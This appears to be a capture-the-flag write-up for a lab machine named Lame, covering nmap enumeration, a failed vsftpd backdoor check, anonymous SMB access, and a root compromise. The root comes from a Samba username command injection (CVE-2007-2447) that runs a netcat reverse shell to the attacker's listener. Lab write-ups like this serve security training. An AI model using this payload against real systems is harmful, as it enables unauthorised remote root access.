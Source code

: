 ## Enumeration
Lets start with doing a network scan of the IP address to identify the open ports and the services running on the ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : run default nmap scripts
* O : identify OS running on each port
* -p- : Scan all ports
```code
sudo nmap -sV -sC -A -p- 10.10.10.3 -vv  
```
From the output of ```nmap```, we are able to know the following information about the ports: 
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 2.3.4 |
| 22	| SSH | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) |
| 139	| netbios-ssn | Samba smbd 3.X - 4.X |
| 445	| netbios-ssn | Samba smbd 3.0.20-Debian |
| 3632	| distccd | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) |

## Exploitation
### VSFTPD
From the results of ```searchsploit```, we know that ```vsftpd 2.3.4``` is vulnerable to backdoor command execution
```code
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remot | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service           | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/49757.py
vsftpd 3.0.3 - Remote Denial of Service    | multiple/remote/49719.py
------------------------------------------- ---------------------------------
```
We will then scan for the vulnerability using ```nmap```
```code
sudo nmap --script ftp-vsftpd-backdoor.nse -p 21 10.10.10.3
```
However, the output shows that the port is not vulnerable to such a vulnerability.
### OpenSSH
The results from ```searchsploit``` of ```OpenSSH``` shows nothing promising, so we will be skipping this

## Samba
Samba is an implementation for SMB networking protocol. We will now try to connect to SMB server using ```smbclient```, and we realise that we can do an anonymous login to the SMB server.
```code
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.10.3 --option='client min protocol=NT1'
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Knowing that we are able to login to the SMB server without any credentials, we will start to look for possible exploits, keeping in mind that ```Samba``` is used.\
Looking through ```exploitdb```, we discovered CVE 2007-2447 that allows remote attackers to run commands via the username parameter in Samba.\
To exploit CVE 2007-2447, we will first have to create a listener on the attacker machine
```code
nc -nlvp 3000
```
All we have to do on the victim's machine is to connect to the SMB client and send shell metacharacters into the username with a reverse shell payload.
```code
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.3/tmp                                           1 ⚙
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.16.250 3000`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
Afterwards, a connection is received on the attacker's machine and we can obtain the flag
```code
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000              
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.3] 49928
python -c 'import pty; pty.spawn("bash")'
root@lame:/# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
```
